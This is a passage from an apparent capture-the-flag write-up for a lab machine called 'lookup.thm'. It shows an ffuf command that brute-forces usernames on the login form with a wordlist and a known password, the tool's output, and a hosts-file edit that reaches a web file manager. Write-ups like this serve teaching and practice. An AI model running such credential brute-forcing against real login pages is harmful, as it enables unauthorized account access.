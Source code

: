 Time for round two. Let's fuzz the username, using the password we just found. I'll filter out responses with 10 words this time.

```bash
❯ ffuf -w /usr/share/wordlists/seclists/Usernames/xato_net_usernames.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=REDACTED' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 10

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Usernames/xato_net_usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Data             : username=FUZZ&password=REDACTED
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10
________________________________________________

****                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 74ms]
```

Success! A `302` status code indicates a successful redirect after login. We have our credentials!

Logging in with our newly found username and password works, but it immediately routes me to `files.lookup.thm`. Time to edit `/etc/hosts` again!

```text
# Add this second domain to the line in your /etc/hosts file
10.10.219.52    lookup.thm files.lookup.thm
```

After adding the new domain, I'm greeted by a web-based file manager.

